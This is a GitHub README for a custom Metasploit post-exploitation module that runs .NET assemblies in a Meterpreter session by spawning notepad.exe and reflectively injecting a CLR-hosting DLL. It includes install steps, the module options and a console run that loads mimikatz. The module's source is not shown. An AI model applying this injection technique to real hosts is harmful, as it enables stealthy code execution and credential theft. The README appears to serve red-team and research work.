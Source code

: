 # Execute assembly via Meterpreter session

This is a custom Metasploit post module to executing a .NET Assembly from Meterpreter session

This project target

Windows 10 64bit
.Net 4.0
Metasploit Framework 4

It spawn a notepad.exe process and use Reflective dll injection to load HostingCLRx64.dll needed to run .Net assembly

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter.html)

## Install

Create $HOME/.msf4/modules/post/windows/manage<br />
Copy execute-assembly.rb in $HOME/.msf4/modules/post/windows/manage/<br />
Create $HOME-METASPLOIT-DATADIR/execute-assembly<br />
Copy HostingCLRx64.dll in $HOME-METASPLOIT-DATADIR/execute-assembly/<br /> 

## Note

The signature of the Main method must match with the parameters that have been set in the module, for example:

If the property ARGUMENTS is set to "antani sblinda destra" the main method should be "static void main (string [] args)"
If the property ARGUMENTS is set to "" the main method should be "static void main ()"

## Module options and execution

```
msf post(windows/manage/execute-assembly) > options 

Module options (post/windows/manage/execute-assembly):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   ARGUMENTS                      no        Command line arguments
   ASSEMBLY                       yes       Assembly file name
   ASSEMBLYPATH                   no        Assembly directory
   SESSION                        yes       The session to run this module on.
   WAIT          10               no        Time in seconds to wait

msf post(windows/manage/execute-assembly) > 
```

```
msf post(windows/manage/execute-assembly) > exploit 

[*] Launching notepad to host CLR...
[+] Process 4708 launched.
[*] Reflectively injecting the Host DLL into 4708...
[*] Injecting Host into 4708...
[*] Host injected. Copy assembly into 4708...
[*] Assembly copied. Executing...
[*] Start reading output
[+] 
[+]   .#####.   mimikatz 2.1.1 (x64) built on Oct 22 2018 16:32:27
[+]  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
[+]  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
[+]  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
[+]  '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
[+]   '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
[+] 
[+] mimikatz(powershell) # coffee
[+] 
[+]     ( (
[+]      ) )
[+]   .______.
[+]   |      |]
[+]   \      /
[+]    `----'
[+] 
[*] End output.
[+] Killing process 4708
[+] Execution finished.
[*] Post module execution completed
msf post(windows/manage/execute-assembly) >
```
